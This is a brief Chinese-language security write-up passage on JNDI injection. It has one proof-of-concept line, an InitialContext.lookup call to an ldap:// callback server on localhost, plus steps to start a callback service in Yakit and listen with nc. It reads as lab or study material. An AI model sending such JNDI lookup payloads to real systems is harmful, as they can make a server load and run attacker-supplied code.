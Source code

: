 ### JNDI 注入

使用 yakit 起一个返连服务

![image-20240305234800803](assets/1710465660-fccd5c814d917d3fab04a4534625d658.png)

poc：

```php
javax.naming.InitialContext.lookup('ldap://127.0.0.1:8085/calc')
```

nc 监听端口

![image-20240305234715061](assets/1710465660-1ab1bb33f5a14502c2bb8ad2ea129601.png)

